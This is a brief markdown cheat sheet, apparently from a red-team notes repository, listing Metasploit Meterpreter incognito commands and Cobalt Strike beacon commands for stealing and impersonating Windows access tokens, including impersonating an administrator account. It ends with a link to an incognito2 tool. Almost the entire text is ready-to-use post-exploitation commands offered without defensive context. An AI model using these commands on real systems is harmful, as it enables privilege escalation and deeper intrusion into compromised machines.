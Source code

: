  #### MSF
	Meterpreter>use incognito
	Meterpreter>list_tokens -u
	Meterpreter>impersonate_token name\\administrator
	&
	Meterpreter>ps
	Meterpreter>steal_token pid
 #### Cobalt strike
	beacon> steal_token 1234 窃取令牌
	beacon> rev2self 恢复令牌
	Windows
	https://gitee.com/RichChigga/incognito2
